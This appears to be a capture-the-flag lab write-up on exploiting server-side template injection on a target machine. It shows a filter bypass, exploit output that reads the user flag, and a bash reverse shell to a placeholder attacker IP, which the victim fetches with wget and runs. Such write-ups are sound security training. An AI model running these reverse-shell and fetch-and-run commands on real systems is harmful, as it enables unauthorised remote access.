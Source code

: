 > Template injection allows an attacker to include template code into an existing (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java) [A Pentester's Guide to Server Side Template Injection (SSTI)](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)

![[server_side_template_injection_ssti_1.png]]

 ![[server_side_template_injection_ssti_2.png]]

##### Try it

Try the `$` character.

![[SSTI_01.png]]

The `$` character is banned. Try `*`.

 ![[SSTI_02.png]]

Malicious input injected into template to execute commands on the server-side.

>Proof-of-Concept => exploit.py

### Exploitation

	python3 exploit.py

```text
$ id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)

$ cat /home/woodenk/user.txt
<...FLAG...>
```

### Post-Exploitation

#### Get reverse shell

	cat shell.sh

```text
bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'
```

Attacker:

	python3 -m http.server 80
	nc -lvnp 1234
	python3 exploit.py


Victim:

	wget <attacker_ip>/shell.sh
	bash shell.sh
